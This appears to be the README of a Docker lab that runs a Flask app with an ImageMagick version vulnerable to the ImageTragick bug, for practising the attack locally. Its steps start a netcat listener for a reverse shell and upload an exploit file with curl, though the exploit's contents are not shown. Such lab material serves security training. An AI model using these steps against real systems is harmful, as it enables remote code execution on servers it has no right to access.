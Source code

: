 # docker-imagetragick

Run a containerised Flask app that relies on a version of ImageMagic that is vulnerable to the ImageTragick bug.

## Steps

1. Download this image and create a container:

        $ docker run -d --name imagetragick -p 127.0.0.1:8080:8080 craighurley/docker-imagetragick

2. Listen for the reverse shell:

        $ nc -l -n -vvv -p 4443

3. Edit the contents of `exploit.mvg` so that it uses the correct IP address that `nc` is listening on.

4. Upload exploit to vulnerable application:

        $ curl -v -F file=@exploit.mvg http://127.0.0.1:8080

## Links

https://imagetragick.com/
